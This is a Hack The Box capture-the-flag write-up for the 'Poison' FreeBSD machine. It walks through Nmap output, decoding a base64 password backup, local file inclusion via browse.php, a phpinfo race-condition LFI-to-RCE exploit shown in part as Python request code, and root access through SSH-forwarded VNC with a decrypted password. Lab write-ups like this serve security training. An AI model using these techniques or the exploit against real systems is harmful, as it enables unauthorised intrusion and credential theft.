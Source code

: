 ```yaml
---
title:     "Hack The Box - Poison"
tags: [freebsd,medium,vnc,lfi,race_condition]
categories: HackTheBox OSCP-Like
---
```


![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled.png)

Poison is an Medium box, getting initial is by finding the LFI and doing race condition or we can get the ssh password of the user directly by decoding the base64 and root is port forwarding VNC to our machine and login it as root.

Link: [https://www.hackthebox.eu/home/machines/profile/132](https://www.hackthebox.eu/home/machines/profile/132)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  ssl/http Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: FreeBSD 11.0-RELEASE - 12.0-CURRENT (97%), FreeBSD 11.0-STABLE (95%), FreeBSD 11.0-CURRENT (94%), FreeBSD 11.0-RELEASE (94%), FreeBSD 9.1-STABLE (92%), FreeBSD 7.0-RELEASE (91%), FreeBSD 12.0-CURRENT (90%), Sony Playstation 4 or FreeBSD 10.2-RELEASE (90%), FreeBSD 7.0-RELEASE-p2 - 7.1-PRERELEASE (89%), FreeNAS 9.10 (FreeBSD 10.3-STABLE) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   203.44 ms 10.10.14.1
2   203.51 ms 10.10.10.84
```

## HTTP Enumeration

This webpage contains some php files, the `Scriptname` will helps us to diplay them.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%201.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%201.png)

Here I tried to view `phpinfo` and it actually worked and also note that parameter helps to locate the files.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%202.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%202.png)

Likewise I started checking all the files. Here we can see one more file called `pwdbackup.txt`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%203.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%203.png)

## Getting User Shell

### Method 1

Checking that file reveals that it contains some base64 encoded stuff and its 13times encoded.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%204.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%204.png)

So I just decoded that multiple times using CyberChef and I got a password thing.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%205.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%205.png)

We know the `backup.php` uses a parameter called `file` so I tried for any LFI possible and I got `/etc/passwd` Here can see another user called charix.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%206.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%206.png)

Tried login with ssh with the creds we got `charix : Charix!2#4%6&8(0`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%207.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%207.png)

### Method 2

We know that we can view PHP Info and there is also LFI and  that uses race condition and can turn an LFI vulnerability to a remote code execution (RCE) vulnerability. There is a python script for this.

> [https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py](https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py)

And I changed some few things.

- Give the exact location of phpinfo.php
- Change the GET request to /browse.php?file= because this is where we found LFI

```py
REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /browse.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
```

- Added my IP address and the port which I need to Listen

Now if I run the script

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%208.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%208.png)

I got the shell as `www`

## Privilege Escalation

When checking the home directory, I found `secret.zip`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%209.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%209.png)

Downloaded to my machine and extracted that, it asked for password and I used the same Charix ssh password and it extracted.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2010.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2010.png)

But the file looks different.

When checking the running process, I found that VNC is running as root.

```bash
charix@Poison:~ % ps aux
.
.
.
root    529   0.0  0.9  23620  9064 v0- I    05:59     0:00.22 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800
```

I checked whether the port is open and port 5901 is the port usually VNC runs.

```bash
charix@Poison:~/.vnc % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.64487      10.10.14.20.3333       ESTABLISHED
tcp4       0      0 10.10.10.84.80         10.10.14.20.41928      CLOSE_WAIT
tcp4       0     44 10.10.10.84.22         10.10.14.20.36254      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*
```

So I did a local port forwarding of the port 5901 to my machine.

```bash
root@kali:~/CTF/HTB/Boxes/Poison# ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

Now We can try connecting to it by using vncviewer and it asks for password, So I guessed that the `secret` file we got from the zip can be password.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2011.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2011.png)

And It worked I logged in as root.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2012.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-poison/Untitled%2012.png)

We own the box!!

We can decrypt the VNC password using this [tool](https://github.com/trinitronx/vncpasswd.py).

```bash
root@kali:~/CTF/HTB/Boxes/Poison/vncpasswd.py# python vncpasswd.py -d -f secret
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```